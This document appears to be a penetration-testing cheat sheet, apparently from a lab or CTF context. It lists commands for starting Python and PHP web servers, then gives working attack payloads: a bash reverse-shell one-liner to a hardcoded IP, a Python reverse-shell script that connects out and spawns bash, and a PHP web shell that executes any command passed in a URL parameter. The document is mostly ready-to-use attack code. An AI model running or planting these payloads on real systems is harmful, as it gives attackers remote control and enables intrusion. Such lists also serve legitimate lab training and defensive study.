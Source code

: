 PoC
```bash
ping -c 3 <ip>
```

Open WebServer [Python]
```bash
python3 -m http.server <port>
```

Open WebServer [PHP]
```bash
php -S 0.0.0.0:<port>
```

Bash
```bash
/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.19/443 0>&1'
```

Python But Bash
```sh
#!/usr/bin/python3
import socket
import subprocess
import os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.56",1234))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty
pty.spawn("bash")
```


Web Shell
```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

